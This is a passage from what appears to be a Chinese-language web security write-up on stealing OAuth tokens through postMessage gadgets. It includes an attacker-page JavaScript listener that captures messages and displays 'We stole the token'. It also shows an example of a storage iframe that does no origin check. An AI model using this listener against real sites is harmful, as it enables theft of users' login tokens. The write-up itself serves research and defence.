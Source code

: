 使得iframe加载的攻击者页面，可以监听我从主窗口的iframe注入postMessage-listener代理发送的消息:


```
<script>
window.addEventListener('message', function (e) {
 if (e.data) {
     document.getElementById('leak').innerText = 'We stole the token: ' + JSON.stringify(e.data);
 }
});
</script>

```

## Gadget 3:使用API来获取界外的URL

![img_7.png](img_7.png)

Gadget 3是最有趣的,把受害者送到某个地方然后从另一个地方获取敏感数据，

### example 1 :没有origin检查的存储框架

第一个示例使用外部服务跟踪数据。这个服务添加了一个“storage iframe”:

```
<iframe
  id="tracking"
  name="tracking"
  src="https://cdn.customer1234.analytics.example.com/storage.html">
</iframe>
```
主窗口将使用postMessage与iframe对话，发送跟踪数据，这些跟踪数据将保存在storage.html所在的localStorage中:
